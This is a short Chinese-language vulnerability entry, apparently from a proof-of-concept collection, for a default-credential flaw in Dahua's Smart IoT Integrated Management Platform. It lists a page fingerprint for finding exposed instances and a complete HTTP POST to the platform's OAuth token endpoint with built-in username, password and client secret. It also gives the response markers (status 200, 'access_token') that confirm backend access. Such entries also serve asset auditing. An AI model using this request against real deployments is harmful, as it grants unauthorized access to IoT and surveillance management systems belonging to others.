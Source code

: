 ﻿# 大华智能物联综合管理平台 默认口令

> 更新时间：2024-05-07

> 漏洞编号：

> 漏洞说明：智能物联综合管理平台存在默认密码漏洞，通过默认用户名密码可以访问后台。

> 漏洞特征：body="/static/fontshd/font-hd.css"

> 验证脚本：HTTP

```
POST /evo-apigw/evo-oauth/oauth/token HTTP/1.1
Accept-Encoding: gzip
Connection: close
Content-Type: application/x-www-form-urlencoded

username=justForTest&password=1&grant_type=password&client_id=web_client&client_secret=web_client&public_key=
```

> 响应代码特征：200

> 响应内容特征：access_token

> 上传文件定位：

> 验证文件来源：大华智能物联综合管理平台 默认口令.poc

